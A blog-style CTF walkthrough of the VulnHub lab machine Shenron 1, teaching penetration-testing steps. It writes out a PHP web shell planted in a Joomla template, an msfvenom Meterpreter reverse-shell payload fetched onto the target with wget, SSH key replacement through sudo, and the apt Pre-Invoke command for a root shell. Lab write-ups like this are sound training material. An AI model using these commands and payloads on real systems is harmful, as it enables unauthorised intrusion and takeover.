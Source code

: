 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-08-30 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) Metasploit Framework<br>
### Environment Set up
A successful penetration tester is organised. Organisation facilitates documentation and makes our progress easily trackable. So to stay organised in this workshop we will create a directory tree to keep track of our progress. A good description of the use of each directory can be find [Here]().
![Working Dir](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform this using the commands below:<br>
Current subnet identification: ```bash ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```
![Service Scan](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH server and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache
![Wep App Index Page](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In the real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing here using **ffuf** it can be done using your tool of preference.
Command used: ```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br>
![Directory Fuzzing](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process can uncover two interesting directories which are *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known CMS Joomla. Let's browse these directories chronologically as they appeared during our fuzzing.
Browsing to the *test* directory we notice that directory listing is enabled which is a vulnerability in itself. We can note this vulnerability in our **Findings** folder. 
![Directory Listing](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

We can also see a file having an interesting name i.e. *password*, accessing the file from our command line reveals to us a pair of credentials belonging to a certain admin user.
![File Accessed](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember that we uncover credentials hidden in the comments of the password file so, let's try this credential against the Joomla instance to check if they are valid.
*NB: Login to the administrative interface on Joomla is done by default in the **administrator** directory.*
![Joomla Login](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
We can see that we successfully login as the admin. After a successful login, we move to Extensions -> Templates -> Templates were can now attempt to add a PHP shell to one PHP file in an unused template. Here, we will choose the protostar template and add our basic PHP shell ```system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name such as a hash for the GET parameter value. Anyone can access that file hence if a common name is used attackers may bruteforce it and also use it to establish their foothold in your client environment.*
![Template Modification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying our template we can now execute commands on our target. ```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br>
![RCE Test](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br>
![Payload Crafting](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
Now after crafting our payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on our target to download to download the payload to the /tmp directory.
![Download Operation](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing our payload we need to configure our listener in Metasploit.
![Metasploit Set Up](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting our listener we can now give execution permission to our payload and execute it.
![Payload Execution](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Going back to the listener, we can see that we caught a shell.
![Catching Shell](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
After obtaining a shell as the web user it's a good habit to search for the *web.config* file in the web root directory which may contain credentials for the database user. In this machine the file is named **web.config.txt**, and reading its content reveals to us the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user **jenny** who is also a user on the target machine so let's try to authenticate as the user jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

We have identified that the user is susceptible to vulnerabilities arising from password reuse. With this password, we can directly try to identify if the user has any sudo rights.
![Sudo Right](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great we see that the user Jenny can perform copy operations by using Shenron identity. Since we observed an SSH service running during our service enumeration let's try to replace the SSH key of Shenron by using the privileges offered to us by the sudo command.
We can generate a key pair \(private, public\) on our attack host and upload the public key using the same method used above or upload it using our powerful meterpreter.
![SSH Key Gen](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key we can now replace the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo rights and then afterward attempting to use the private key to log in as Shenron
![SSH Key Replace](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
Great, we successfully logged in as Shenron we can now use this new account to read the user's flag and continue our enumeration of the system.
![User Flag](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string *password* in their names with the command ```find / -iname *password* 2>/dev/null``. We got a hit in the **/var/opt** directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum]()
We can now use that password to read Shenron's sudo rights
![Sudo Right]()
We can observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. Here the command ```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh``` can be used to obtain a root shell as demonstrated in the image.
![Root Access](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png) 
Great we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Great, in this walkthrough we have learned how a simple file listing vulnerability could be used to take over a machine. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up the walkthrough.






